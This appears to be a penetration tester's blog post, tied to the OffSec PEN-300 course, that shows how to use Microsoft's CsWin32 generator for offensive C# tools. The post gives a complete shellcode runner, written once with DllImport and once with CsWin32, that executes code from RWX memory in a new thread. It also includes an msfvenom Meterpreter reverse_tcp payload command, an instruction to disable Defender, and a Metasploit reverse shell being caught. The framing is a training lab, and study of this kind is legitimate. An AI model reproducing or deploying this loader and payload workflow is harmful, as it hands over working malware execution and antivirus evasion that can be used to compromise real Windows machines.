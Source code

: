 During Offensive Security’s [Pen 300](https://www.offsec.com/courses/pen-300/) course, you’ll get hands-on experience with various techniques for bypassing Windows defenses using C#. These methods often require the use of unmanaged code. I figure C# was chosen not just for its versatility but also because of its tight integration with PowerShell. You’ll frequently see C# code embedded in PowerShell scripts via `Add-Type` throughout the course.

Building tools to bypass Windows Defender and other defenses has traditionally involved **P/Invoke** (`Platform Invoke`), using the `[DllImport]` attribute. For years, [PInvoke.net](https://pinvoke.net/) has been the go-to repository for grabbing the necessary signatures to drop straight into your code.

An example of using P/Invoke with PInvoke.net might look like this:

```csharp
[DllImport("kernel32.dll", SetLastError = true)]
static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
static extern bool VirtualFree(IntPtr lpAddress, uint dwSize, uint dwFreeType);
```

Here, the developer manually imports the functions `VirtualAlloc` and `VirtualFree` from `kernel32.dll`, specifying the calling conventions, marshaling behavior, and error handling. 

I’ve always found `[DllImport]` statements to be a bit of a hassle, especially when PInvoke.net was either down or too slow to grab what I needed. That’s when I discovered the [CsWin32 Project](https://github.com/microsoft/CsWin32), which totally changes the game by automating the generation of Win32 `P/Invoke` signatures at compile time. With CsWin32, copying and pasting from PInvoke.net is replaced by an automatic source generator. CsWin32 generates P/Invoke signatures at compile time based on metadata from Windows SDKs, ensuring that the code is always correct, up-to-date, and optimized for the .NET runtime.

The question was whether or not I could transition my code to CsWin32. There is some burden on the programmer when making this transition due to the Win32 APIs being native to C/C++ of which I know very little. However after some failures, I was able to transition most of my C# code base over to using CsWin32. There are still cases where you’ll need to fall back on PInvoke.net, especially when dealing with `Zw` or `Nt` functions, which are part of the Native API and generally lack proper documentation. Seeing as how Microsoft is driving the CsWin32 project, I'm not sure those will be included and one needs to use the PInvoke.net signatures and/or consider using C/C++ any code required those methods.

Let’s walk through how to use CsWin32 in offensive tooling by building a simple shellcode execution program. We’ll start with the basics: allocating memory, copying the shellcode into it, and spinning up a thread to run the payload. Below is a basic example of an injection attack. Using PInvoke.net signatures the C# code might look like the following:

```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace ConsoleApp1
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        static void Main(string[] args)
        {

            byte[] buf = new byte[511] {<shellcode};
            int size = buf.Length;
            
            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

            Marshal.Copy(buf, 0, addr, size);

            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
```

There are three of the `[DllImport]` statements, but as the code complexity grows, one can end up with a great many `[DllImport]`, but by using CsWin32, the amount of code that is needed for this simple injection is reduced to something I think looks nicer.

```csharp
using System;
using System.Runtime.InteropServices;
using Windows.Win32;
using Windows.Win32.System.Memory;
using Windows.Win32.Foundation;

namespace ShellCodeRunnerCsWin32
{
    internal class Program
    {

        static unsafe void Main(string[] args)
        {

            byte[] buf = new byte[###] {<shellcode>};

            UIntPtr msize = (UIntPtr)(uint)buf.Length;
            
            void* allocatedMemory = PInvoke.VirtualAlloc(null, msize, VIRTUAL_ALLOCATION_TYPE.MEM_COMMIT, PAGE_PROTECTION_FLAGS.PAGE_EXECUTE_READWRITE);

            Marshal.Copy(buf, 0, (IntPtr)allocatedMemory, buf.Length);

            Windows.Win32.System.Threading.LPTHREAD_START_ROUTINE allocatedMemoryPointer = (Windows.Win32.System.Threading.LPTHREAD_START_ROUTINE)Marshal.GetDelegateForFunctionPointer((IntPtr)allocatedMemory,  typeof(Windows.Win32.System.Threading.LPTHREAD_START_ROUTINE));

             HANDLE h = PInvoke.CreateThread(null, (UIntPtr)0, allocatedMemoryPointer, (void*)0, 0 );
            PInvoke.WaitForSingleObject(h, 0xFFFFFFFF);

        }
    }
}
```

### **Summary of the Code Flow:**
1. **Allocate memory** using `VirtualAlloc` with read/write/execute permissions.
2. **Copy shellcode** (or any code) into that allocated memory using `Marshal.Copy`.
3. **Create a new thread** using `CreateThread` that starts execution at the shellcode's memory location.
4. **Wait for the thread to complete** using `WaitForSingleObject`.

### Getting Started with CsWin32

Admittedly, getting CsWin32 installed requires a fair amount of steps. 

1. Once your C# project is open in Visual Studio, navigate to  `Tools -> NuGet Package Manager -> Manage NuGet Packages for Solutions`.

![](Images/Coding/CsWin32InsteadOfPInvoke/CsWin32-Tools-NuGet.png)

2. Search for CsWin32

![](Images/Coding/CsWin32InsteadOfPInvoke/CsWin32-NuGet-CsWin32.png)

3. Install...this will also install dependencies which need to be accepted (SDK.Win32Metadata, WDK.Metadata, and SDK.Win32Docs)
4. From the CsWin32 github page (https://github.com/microsoft/cswin32): "You should also install the `System.Memory` and `System.Runtime.CompilerServices.Unsafe` packages when targeting .NET Framework 4.5+ or .NET Standard 2.0, as these add APIs that significantly improve much of the code generated by CsWin32"
5. Search for `System.Memory` and `System.Runtime.CompilerServices.Unsafe` and install via the GUI or install via the command line:
```cmd
dotnet add package System.Memory
dotnet add package System.Runtime.CompilerServices.Unsafe
```
6.  within the source code layout create a text file named `NativeMethods.txt`
7.  add the Win32 APIs needed to `NativeMethods.txt` and each method will be auto-generated.

![](Images/Coding/CsWin32InsteadOfPInvoke/CsWin32-NativeMethods.png)


8. The APIs can be viewed under Analyzers in the `Solution Explorer`

![](Images/Coding/CsWin32InsteadOfPInvoke/CsWin32-Analyzers.png)

From here, the arguments for the function calls need to be properly 


### Execution

We can start by creating some shellcode with msfvenom.

```bash
❯ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=eth0 LPORT=9001 -f csharp
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of csharp file: 2623 bytes
byte[] buf = new byte[510] {0xfc,0x48,0x83,0xe4,0xf0,0xe8,
0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,
...
}
```

Then copy the output `byte[] buf = new byte[510] {0xfc,0x48,0x83,0xe4,0xf0,0xe8` and paste into the `Main` method of `Program.cs`. Compile the C# code and navigate in a terminal to where the newly created `.exe` is located.

*Note:* Be sure to turn off Defender or configure Defender to not scan the directory where the `*.exe` is located.

![](Images/Coding/CsWin32InsteadOfPInvoke/ShellCodeRunnerCsWin32-Compiled.png)

On my Kali Linux VM, I start Metasploit console to await the reverse shell.

![](Images/Coding/CsWin32InsteadOfPInvoke/CsWin32-Metasploit.png)

...and here it is...

![](Images/Coding/CsWin32InsteadOfPInvoke/CsWin32-MetasploitReverseShell-01.png)


CsWin32 handles the heavy lifting by auto-generating P/Invoke signatures that are always up-to-date. It saves you from manually managing signatures and gives you a streamlined, efficient way to interface between C# and the native Windows APIs.